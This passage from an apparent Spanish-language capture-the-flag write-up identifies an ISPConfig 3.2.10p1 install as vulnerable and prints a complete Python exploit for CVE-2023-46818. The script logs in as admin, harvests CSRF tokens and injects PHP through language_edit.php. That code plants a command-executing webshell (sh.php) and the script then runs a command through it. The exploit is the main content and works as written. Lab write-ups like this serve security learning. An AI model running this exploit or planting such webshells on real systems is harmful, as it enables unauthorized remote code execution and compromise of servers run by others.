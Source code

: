 Notamos que la versiones `ISPConfig Version: 3.2.10p1`, si googleamos esto encontramos lo siguiente, confirmando que esta version es vulnerable

![ispconfig-version](/assets/img/nocturnal-easy/Pasted%20image%2020250824180204.png)

Explotamos la **CVE-2023-46818** (language\_edit.php). Script usado:

```python
#!/usr/bin/env python3
import requests, re, sys, base64, urllib.parse
requests.packages.urllib3.disable_warnings()

URL, USER, PW = sys.argv[1:4]            # uso: python3 exploit.py http://x/ admin pass
if not URL.endswith('/'): URL += '/'

s = requests.Session(); s.verify = False

# 1) login
r = s.post(URL+'login/', data={'username':USER,'password':PW,'s_mod':'login'})
if 'Username or Password wrong' in r.text: sys.exit('[-] Login fail')
print('[+] Logged in')

# 2) busca tokens CSRF en language_edit
lang_params = {'lang':'en','module':'help','lang_file':'xyz.lng'}
r = s.get(URL+'admin/language_edit.php', params=lang_params)
csrf_id  = re.search(r'name="_csrf_id"\s+value="([^"]+)"', r.text)[1]
csrf_key = re.search(r'name="_csrf_key"\s+value="([^"]+)"', r.text)[1]

# 3) payload: escribe sh.php
php = "<?php echo 'OK'; if(isset($_GET['c'])) system($_GET['c']); ?>"
inj = f"'];file_put_contents('sh.php',base64_decode('{base64.b64encode(php.encode()).decode()}'));die;#"
data = {'lang':'en','module':'help','lang_file':'xyz.lng',
        '_csrf_id':csrf_id,'_csrf_key':csrf_key,'records[\\]':inj}
s.post(URL+'admin/language_edit.php', data=data)
print('[+] Webshell planted as /admin/sh.php')

# 4) prueba
r = s.get(URL+'admin/sh.php', params={'c':'id'})
print('[+] Command output:\n', r.text)
```
